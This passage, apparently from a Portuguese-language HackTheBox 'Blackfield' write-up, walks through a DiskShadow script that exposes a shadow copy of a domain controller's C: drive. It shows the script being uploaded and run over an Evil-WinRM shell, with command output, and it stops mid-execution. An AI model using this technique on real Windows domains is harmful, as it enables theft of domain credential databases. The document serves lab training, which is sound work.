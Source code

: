 ```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield]
└─$ cat diskshadow.txt 
set verbose on 
set metadata C:\Windows\Temp\meta.cab 
set context clientaccessible 
set context persistent 
begin backup 
add volume C: alias cdrive 
create 
expose %cdrive% E: 
end backup
```

​	O script começa habilitando o modo detalhado (**set verbose**) para fornecer mais detalhes sobre a saída. Em seguida, define a localização do arquivo de metadados (**set metadata**). 

​	O arquivo `meta.cab` é criado quando criamos a cópia **shadow** da unidade. Ele armazena informações sobre nossa cópia **shadow**, como data e hora de criação, nome do volume e tamanho da cópia.

​	A seguir, definimos os contextos do backup para serem acessíveis ao cliente (**set context clientaccessible**) e persistentes (**set context persistent**). Assim, os backups podem ser acessíveis para nós após a execução do script e persistentes quando reiniciamos a máquina.

​	Em seguida, o backup é iniciado (**begin backup**), inclui a unidade `C:` e atribui a ela um alias como **cdrive** para referência. 

​	**OBS:** Podemos ter qualquer nome alternativo que quisermos, não precisa ser necessariamente **cdrive**. 

​	Finalmente, o comando **create** cria o backup real e, em seguida, expõe a unidade `C:` como uma unidade de rede com a letra `E:` e finaliza a operação com o comando **end backup**. 

​	Com o script montado, podemos fazer upload na máquina e executar o **DiskShadow**.

​	**OBS:** Na hora de executar o diskshadow estava removendo o último caracter de cada linha, então, é necessário dar um espaco no final de cada linha.

```powershell
*Evil-WinRM* PS C:\Temp> upload /home/kali/Desktop/HTB/Blackfield/diskshadow.txt C:\Temp\diskshadow.txt
Info: Uploading /home/kali/Desktop/HTB/Blackfield/diskshadow.txt to C:\Temp\diskshadow.txt
                                                             
Data: 240 bytes of 240 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Temp> ls

    Directory: C:\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/20/2024   8:05 PM            182 diskshadow.txt

*Evil-WinRM* PS C:\Temp> diskshadow.exe /s diskshadow.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  1/20/2024 8:07:38 PM

-> set verbose on
-> set metadata C:\Windows\Temp\meta.cab
-> set context clientaccessible
-> set context persistent
-> begin backup
-> add volume C: alias cdrive
-> create
```